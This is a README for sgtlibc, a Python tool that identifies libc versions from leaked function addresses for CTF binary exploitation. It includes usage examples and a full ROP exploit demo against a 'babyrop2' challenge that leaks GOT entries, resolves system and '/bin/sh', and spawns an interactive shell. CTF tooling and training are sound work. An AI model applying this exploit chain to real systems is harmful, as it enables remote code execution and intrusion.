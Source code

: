 

<p align="center">
    <a href="https://github.com/serfend/sgtlibc/"><img alt="pypi version" src="https://visitor-badge.glitch.me/badge?page_id=serfend/sgtlibc&left_text=views" /></a> 
    <a href="https://pypi.python.org/pypi/sgtlibc/"><img alt="pypi version" src="https://img.shields.io/pypi/v/sgtlibc.svg" /></a> 
    <a href="https://pypistats.org/packages/sgtlibc"><img alt="pypi download" src="https://img.shields.io/pypi/dm/sgtlibc.svg" /></a>
    <a href="https://github.com/serfend/sgtlibc/releases"><img alt="GitHub release" src="https://img.shields.io/github/release/serfend/sgtlibc.svg?style=flat-square" /></a>
    <a href="https://github.com/serfend/sgtlibc/releases"><img alt="GitHub All Releases" src="https://img.shields.io/github/downloads/serfend/sgtlibc/total.svg?style=flat-square&color=%2364ff82" /></a>
    <a href="https://github.com/serfend/sgtlibc/commits"><img alt="GitHub last commit" src="https://img.shields.io/github/last-commit/serfend/sgtlibc.svg?style=flat-square" /></a>
    <!-- <a href="https://github.com/serfend/sgtlibc/actions/workflows/pytest.yml"><img alt="GitHub Workflow Status" src="https://github.com/serfend/sgtlibc/actions/workflows/pytest.yml/badge.svg" /></a> -->
</p>





![Windows](https://img.shields.io/badge/Windows-0078D6?style=for-the-badge&logo=windows&logoColor=white)![Linux](https://img.shields.io/badge/Linux-FCC624?style=for-the-badge&logo=linux&logoColor=black)![Ubuntu](https://img.shields.io/badge/Ubuntu-E95420?style=for-the-badge&logo=ubuntu&logoColor=white)![Kali](https://img.shields.io/badge/Kali-268BEE?style=for-the-badge&logo=kalilinux&logoColor=white)![FreeBSD](https://img.shields.io/badge/-FreeBSD-%23870000?style=for-the-badge&logo=freebsd&logoColor=white)![Deepin](https://img.shields.io/badge/Deepin-007CFF?style=for-the-badge&logo=deepin&logoColor=white)![Debian](https://img.shields.io/badge/Debian-D70A53?style=for-the-badge&logo=debian&logoColor=white)![Cent OS](https://img.shields.io/badge/cent%20os-002260?style=for-the-badge&logo=centos&logoColor=F0F0F0)

# What?

[sgtlibc](https://github.com/serfend/sgtlibc) is a a offline python-lib for search libc function.



## Install

```shell
pip install sgtlibc
```



## Usage

```shell
usage: main.py [-h] [-d [DUMP ...]] [-i [INDEX]] [-u [UPDATE]] [funcs_with_addresses]

for search version of libc.you can use like:`sgtlibc puts:aa0+read:140 --dump system binsh` or in python , like : `py:import sgtlibc;s = sgtlibc.LibcSearcher();s.add_condition('puts',0xaa0)`

positional arguments:
  funcs_with_addresses  specify `func-name` and `func address` , split by `|`,eg: puts:aa0+read:140 , its means func-put's address = 0xaa0;func-read addr = 0x140 (default: None).

options:
  -h, --help            show this help message and exit
  -d [DUMP ...], --dump [DUMP ...]
                        select funcs to dump its info (default: ['__libc_start_main_ret', 'system', 'dup2', 'read', 'write', 'str_bin_sh']).
  -i [INDEX], --index [INDEX]
                        db index on multi-database found occation (default: 0).
  -u [UPDATE], --update [UPDATE]
                        update current libc database from internet , need non-microsoft-windows environment (default: False).
```





## Quick Start

- in cmd.exe` or `/bin/sh`

```shell
sgtlibc puts:aa0
sgtlibc puts:aa0+read:140
sgtlibc puts:aa0+read:140 --dump system binsh
```

- in `python3`

```python
import sgtlibc
s = sgtlibc.Searcher()
s.add_condition('puts', 0xaa0)
s.add_condition('read',0x140)
print(s.dump())
print(s.dump(['system','str_bin_sh']))
```



## Example

- `main args` specify `func-name` and `func address` ,**SHOULD split by `|` **

  eg: `puts:aa0+read:140` which means:

  - func-`puts` address = `0xaa0`
  - func-`read` address =` 0x140`

- `--update` is for update libc database from internet base on `libc-database` , **require non-microsoft-window**  system



- run [python code above](/#/Quick Start) , you'll get output-result like following shows:

![image-20220605212842313](https://raw.githubusercontent.com/serfend/res.image.reference/main/image-20220605212842313.png)

- run command in terminal , you'll get output-result like following shows:

  ![image-20220605213023151](https://raw.githubusercontent.com/serfend/res.image.reference/main/image-20220605213023151.png)

- use in `pwntools`

```python
from pwn import * # should run pip install pwntools before
import sgtlibc
s = libc.Searcher()
puts_addr = 0xff1234567aa0 # from leak data
s.add_condition('puts',puts_addr)
libc = s.dump() # search libc , if returns multi-result ,default use index-0's result
offset = puts_addr - libc[sgtlibc.s_puts]  # puts_write
system_addr = p64(libc[sgtlibc.s_system] + offset)
binsh_addr = p64(libc[sgtlibc.s_binsh] + offset)
```



## CTF Problem Solve DEMO

```python
import sgtlibc
from sgtlibc.gamebox import *
set_config(GameBoxConfig(
    is_local=True, file='./babyrop2', remote='192.168.0.1:25462',
    auto_load=True, auto_show_rop=True, auto_show_summary=True,
    auto_start_game=True
))
s = sgtlibc.Searcher()
elf = client.elf
payload_exp = b'a' * (28 + 4) + p00(0xdeadbeef)  # overflow position
def leak(func: str):
    payload = payload_exp + p00(elf.rop['rdi']) + p00(elf.got[func]) + \
        p00(elf.plt['printf']) + p00(elf.symbols['main'])
    sl(payload)
    rl()
    data = rc(6).ljust(8, b'\0')
    data = uc(data)
    s.add_condition(func, data)
    return data
leak('printf')
leak('read')
data = s.dump(db_index=2)  # choose your system index
system_addr = s.get_address(sgtlibc.s_system)
binsh_addr = s.get_address(sgtlibc.s_binsh)
log.info(f'system_addr:{hex(system_addr)}')
log.info(f'binsh_addr:{hex(binsh_addr)}')
payload = payload_exp + p00(elf.rop['rdi']) + p00(binsh_addr) + \
    p00(system_addr) + p00(0xdeadbeef)
sl(payload)
interactive()
```





## Notice

> default libc database is update long-time ago , we fully recommanded to update it by run `sgtlibc --update`



## Status

![Alt](https://repobeats.axiom.co/api/embed/7d8920fddffed00ee7feb8d172bc7b48c86da3b8.svg "Repobeats analytics image")
